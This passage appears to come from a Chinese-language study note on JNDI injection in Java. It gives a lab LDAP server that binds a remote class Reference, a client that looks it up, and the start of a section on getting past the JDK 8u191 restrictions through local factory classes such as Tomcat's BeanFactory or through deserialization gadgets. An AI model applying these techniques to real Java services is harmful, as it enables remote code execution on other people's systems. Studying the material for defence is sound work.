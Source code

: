     /**
     * @author hasee
     * @version 1.0
     * @description: TODO
     * @date 2023/5/13 14:45
     */
    public class JNDILDAPServer {
        public static void main(String[] args) throws NamingException, RemoteException {
            InitialContext initialContext = new InitialContext();
            // 这里需要注意，TestRef 这个类不能有包 package
            Reference reference = new Reference("TestRef.class", "TestRef", "http://localhost:7777/");
            // 注意 url 的写法
            initialContext.rebind("ldap://localhost:10389/cn=test,dc=endlessshw,dc=com", reference);
        }
    }
    ```

2. JNDI + LDAP 服务端：
    ```java
    package com.endlessshw.client;
    
    import javax.naming.InitialContext;
    import javax.naming.NamingException;
    
    /**
     * @author hasee
     * @version 1.0
     * @description: TODO
     * @date 2023/5/13 14:55
     */
    public class JNDILDAPClient {
        public static void main(String[] args) throws NamingException {
            InitialContext initialContext = new InitialContext();
            initialContext.lookup("ldap://localhost:10389/cn=test,dc=endlessshw,dc=com");
        }
    }
    ```

3. 别忘了开启 HTTP 服务。

## 4. JDK 8u191 之后的绕过

1. 思想（两个方向）：

    > 找到一个受害者本地`CLASSPATH`中的类作为恶意的`Reference Factory`工厂类，并利用这个本地的`Factory`类执行命令。
    >
    > 利用`LDAP`直接返回一个恶意的序列化对象，`JNDI`注入依然会对该对象进行反序列化操作，利用反序列化`Gadget`完成命令执行。
    >
    > https://kingx.me/Restrictions-and-Bypass-of-JNDI-Manipulations-RCE.html

2. 简单点说，就是着重点从 Codebase 转移到 Factory，找他使用的、实现 `ObjectFactory` 或者 `DirObjectFactory` 两种接口的工厂类。

### 4.1 借助 Tomcat 的 `BeanFactory` 类（Tomcat 8.5.78，87 是用不了，todo 具体哪个版本修复）
